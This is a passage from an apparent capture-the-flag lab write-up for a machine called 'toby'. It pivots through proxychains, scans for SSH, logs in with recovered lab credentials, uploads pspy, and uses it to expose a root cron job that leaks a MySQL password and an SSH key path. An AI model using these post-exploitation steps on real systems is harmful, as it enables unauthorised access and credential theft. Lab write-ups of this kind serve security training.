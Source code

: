 Next we need to figure out where to use those credentials. Since this was supposed to log into the mysql docker we check if this machine also has ssh open which is the case.

```
$ proxychains nmap -p22 172.69.0.102
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-07 20:42 UTC
Nmap scan report for 172.69.0.102
Host is up (0.58s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

Using the credentials `jack:4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC` we are now able to ssh into the mysql docker using proxychains.

```
$ proxychains ssh jack@172.69.0.102
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
jack@172.69.0.102's password:
Linux mysql.toby.htb 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jack@mysql:~$
```

## Cronjob

There isn't much of interest on this docker so we transfer pspy over to the machine to have a closer look at processes.

```
$ proxychains scp ./pspy64 jack@172.69.0.102:/tmp/pspy64
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
jack@172.69.0.102's password:
pspy64
```

Running it reveals an interesting process by root which seems to use a ssh key in a temporary file to scp a backup.

```
jack@mysql:~$ chmod +x /tmp/pspy64
jack@mysql:~$ /tmp/pspy64
...[snip]...
2021/11/07 20:47:01 CMD: UID=0    PID=29743  | sh -c mysqldump wordpress -uroot -pOnlyTheBestSecretsGoInShellScripts > /tmp/tmp.Isu5vNeMFh/backup.txt
2021/11/07 20:47:02 CMD: UID=0    PID=29744  | runc init
2021/11/07 20:47:02 CMD: UID=0    PID=29752  | runc init
2021/11/07 20:47:02 CMD: UID=0    PID=29759  | runc init
2021/11/07 20:47:02 CMD: UID=0    PID=29765  | scp -o StrictHostKeyChecking=no -i /tmp/tmp.Isu5vNeMFh/key /tmp/tmp.Isu5vNeMFh/backup.txt jack@172.69.0.1:/home/jack/backups/1636318022.txt
...[snip]...
```
